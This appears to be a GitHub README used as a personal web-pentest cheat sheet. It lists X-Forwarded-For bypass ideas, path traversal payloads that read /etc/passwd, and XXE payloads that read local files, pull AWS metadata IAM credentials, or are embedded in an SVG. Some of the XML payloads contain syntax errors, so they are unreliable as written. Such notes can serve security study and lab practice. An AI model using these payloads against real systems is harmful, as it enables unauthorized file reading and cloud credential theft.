 <img width="726" height="171" alt="image" src="https://github.com/user-attachments/assets/de8487c7-df2b-409e-8f25-b7cc7e15f713" /><img width="726" height="171" alt="image" src="https://github.com/user-attachments/assets/ce35a9a9-84a4-4b2e-a04e-d51c4eacff5d" /># Code-Review
Repo for code review

https://github.com/swisskyrepo/PayloadsAllTheThings/

X-Forwarded-For: 888

Probe for weak validation — checks whether the app only checks for header existence (instead of verifying a valid IP).

Bypass naive filters — e.g., if a filter does if header contains digits or uses a poor regex, 888 might pass while a blocked IP might not.

Log poisoning — injecting odd tokens into logs for later exploitation or to confuse log-parsing pipelines.

Trigger unexpected behavior in code that does numeric/lexical checks on the header value.


Path Traversal:
1. /etc/passwd
2. ../../../etc/passwd
3. ..//..//..//etc/passwd
4. Add on to that add URL Encode all Characters <- 2times do the process
5. Try https://www.example.com/image?filename=/var/www/images/../../../etc/passwd
6. ../../../etc/passwd%00[48.jpg]->acutal URL

var/www/html/*

XML Injections:
1. <?xml>
    <!DOCTYPE test [<ENTITY test SYSTEM "file://etc/passwd">]><stockCheck>
2. <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<! ENTITY test SYSTEM
"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
3.Input field Type
productId=<hack xmlns:xi="http://www.w3.org/2001/XInclude">< xi:include parse="text" href="file:///etc/passwd"/></hack&storeId=1
4. Saving the payload of XML in SVG file using nano pic.svg and saving it with a payload that used
